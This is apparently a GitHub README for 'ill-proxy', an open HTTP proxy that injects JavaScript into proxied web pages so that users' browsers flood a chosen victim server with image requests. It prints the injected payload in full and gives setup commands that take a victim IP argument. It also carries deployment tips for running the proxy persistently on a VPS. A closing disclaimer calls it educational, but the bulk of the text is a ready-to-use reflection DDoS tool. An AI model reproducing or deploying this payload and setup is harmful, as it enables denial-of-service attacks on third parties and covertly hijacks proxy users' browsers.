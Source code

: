 # 🧠 Reflection DDoS via Open HTTP Proxy

**ill-proxy** is a Python-based open HTTP proxy that injects JavaScript into HTML responses. The injected script forces connected browsers to generate multiple outbound requests to a target server, simulating a reflection-based DDoS attack where unsuspecting clients become amplifiers.


---

## 🔧 Features

- Open HTTP proxy on port 8080
- Injects JavaScript payload into HTML responses
- Payload creates multiple image requests to a target IP
- Victim IP can be passed via command line
- Optional request logging to a specified file
- Lightweight — no dependencies beyond the Python standard library
- Ideal for research, educational labs, red team simulations, or pentesting your own systems


---

## ⚙️ How It Works

1. Clients connect through the proxy.
2. The proxy forwards HTTP traffic.
3. If the response is HTML (`Content-Type: text/html`), it injects a `<script>` that loads 100 images from the victim server.
4. Each connected client unknowingly reflects traffic to the target.


---

### 💥 Example Payload
```
<script>
  for (let i = 0; i < 100; i++) {
    let img = new Image();
    img.src = "http://198.51.100.77/img" + i + ".jpg";
  }
</script>
```
Replace `198.51.100.77` with your controlled test server IP.


---

## 🚀 Setup

1. Clone the repo:
```
git clone https://github.com/ill-deed/ill-proxy.git
cd ill-proxy
```
2. Run the proxy:
```
python3 ill-proxy.py
```
3. Optional: specify a target victim IP and log file:
```
python3 ill-proxy.py http://1.2.3.4 attack.log
```
4. Configure a browser to use your VPS as an HTTP proxy (port 8080).

5. Visit any HTTP website (not HTTPS) to trigger injection.


---

## 📓 Deployment Notes

- Use `tmux`, `screen`, `nohup`, or a `systemd` service to keep the proxy running in the background.
- Make sure port 8080 is open in both UFW and your cloud provider’s firewall panel.
- Logging is optional and only occurs if a file path is passed as the second argument.

---

## ⚠️ Disclaimer

This tool is provided strictly for **educational, testing, and research purposes**. Do **not** use it on unauthorized systems or networks. Misuse of this tool may violate laws and ethical guidelines. You are fully responsible for your actions.
